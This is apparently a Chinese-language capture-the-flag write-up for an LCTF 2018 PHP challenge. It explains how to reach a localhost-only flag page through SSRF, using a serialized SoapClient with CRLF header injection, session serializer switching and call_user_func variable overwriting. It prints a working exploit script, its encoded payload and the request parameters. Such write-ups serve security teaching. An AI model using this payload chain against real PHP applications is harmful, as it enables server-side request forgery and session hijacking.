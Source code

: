 ```php
only localhost can get flag!session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
       $_SESSION['flag'] = $flag;
   }
only localhost can get flag!
```

分析下代码，flag.php 文件中告诉我们，只有 127.0.0.1 请求该页面才能得到 flag ，所以这明显又是考察 SSRF 漏洞，这里我们便可以利用 SoapClient 类的 __call 方法来进行 SSRF 



第一步：由于 PHP 中的原生 SoapClient 类存在 CRLF 漏洞，所以我们可以伪造任意 header ，构造 **SoapClient** 类，并用php_serialize引擎进行序列化，存入session



> **PHP 7 中 session_start () 函数可以接收一个数组作为参数，可以覆盖 php.ini 中 session 的配置项。这个特性也引入了一个新的 php.ini 设置（session.lazy_write）**

我们可以利用回调函数，通过给f传参，值为session_start，然后post提交   `array('serialize_handler'=>'php_serialize')`

即达到**session_start(array('serialize_handler' => 'php_serialize'))** ，将会根据php7特性设置session.serialize_handler=php_serialize。而又因为session是可控的，可以通过传入name值，任意伪造。这里就想到name传入的是序列化值了，序列化exp

```php
<?php
$target='http://127.0.0.1/flag.php';
$b = new SoapClient(null,array('location' => $target,
    'user_agent' => "npfs\r\nCookie:PHPSESSID=123456\r\n",
    'uri' => "http://127.0.0.1/"));

$se = serialize($b);
echo "|".urlencode($se);

//注意下，这个脚本想要执行，需要将php.ini里的 php_soap.dll 前面的分号去掉
```

执行脚本得到

```
|O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A17%3A%22http%3A%2F%2F127.0.0.1%2F%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A31%3A%22npfs%0D%0ACookie%3APHPSESSID%3D123456%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```

![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu17.jpg)



第二步：通过变量覆盖，调用SoapClient类，从而触发__call 方法

传值f=extract&name=SoapClient      POST:b=call_user_func. 这样 call_user_func($b,$a)就变成call_user_func(‘call_user_func’,array(‘SoapClient’,’welcome_to_the_lctf2018’)) ，即调用 SoapClient 类不存在的 welcome_to_the_lctf2018 方法，从而触发 __call 方法发起 soap 请求进行 SSRF 。
